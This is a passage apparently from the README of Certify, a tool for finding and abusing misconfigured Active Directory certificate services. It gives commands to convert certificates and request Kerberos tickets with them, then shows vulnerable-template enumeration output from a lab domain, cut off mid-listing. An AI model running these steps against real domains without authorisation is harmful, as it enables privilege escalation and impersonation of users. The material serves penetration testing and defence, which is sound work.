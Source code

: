 Certificates can be transformed to .pfx's usable with Certify with:

    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certificates can be used with Certify to request a TGT with:

    Certify.exe asktgt /user:X /certificate:C:\Temp\cert.pfx /password:<CERT_PASSWORD>


## Example Walkthrough

First, use Certify.exe to see if there are any vulnerable templates:

    C:\Temp>Certify.exe find /vulnerable
       _____          _   _  __
      / ____|        | | (_)/ _|
     | |     ___ _ __| |_ _| |_ _   _
     | |    / _ \ '__| __| |  _| | | |
     | |___|  __/ |  | |_| | | | |_| |
      \_____\___|_|   \__|_|_|  \__, |
                                 __/ |
                                |___./
      v1.0.0

    [*] Action: Find certificate templates
    [*] Using the search base 'CN=Configuration,DC=theshire,DC=local'
    [*] Restricting to CA name : dc.theshire.local\theshire-DC-CA

    [*] Listing info about the Enterprise CA 'theshire-DC-CA'

        Enterprise CA Name            : theshire-DC-CA
        DNS Hostname                  : dc.theshire.local
        FullName                      : dc.theshire.local\theshire-DC-CA
        Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
        Cert SubjectName              : CN=theshire-DC-CA, DC=theshire, DC=local
        Cert Thumbprint               : 187D81530E1ADBB6B8B9B961EAADC1F597E6D6A2
        Cert Serial                   : 14BFC25F2B6EEDA94404D5A5B0F33E21
        Cert Start Date               : 1/4/2021 10:48:02 AM
        Cert End Date                 : 1/4/2026 10:58:02 AM
        Cert Chain                    : CN=theshire-DC-CA,DC=theshire,DC=local
        UserSpecifiedSAN              : Disabled
        CA Permissions                :
          Owner: BUILTIN\Administrators        S-1-5-32-544

          Access Rights                                     Principal

          Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
          Allow  ManageCA, ManageCertificates               THESHIRE\Domain Admins        S-1-5-21-937929760-3187473010-80948926-512
          Allow  ManageCA, Read, Enroll                     THESHIRE\Domain Users         S-1-5-21-937929760-3187473010-80948926-513
            [!] Low-privileged principal has ManageCA rights!
          Allow  Enroll                                     THESHIRE\Domain Computers     S-1-5-21-937929760-3187473010-80948926-515
          Allow  ManageCA, ManageCertificates               THESHIRE\Enterprise Admins    S-1-5-21-937929760-3187473010-80948926-519
          Allow  ManageCertificates, Enroll                 THESHIRE\certmanager          S-1-5-21-937929760-3187473010-80948926-1605
          Allow  ManageCA, Enroll                           THESHIRE\certadmin            S-1-5-21-937929760-3187473010-80948926-1606
        Enrollment Agent Restrictions :
          Everyone                      S-1-1-0
            Template : <All>
            Targets  :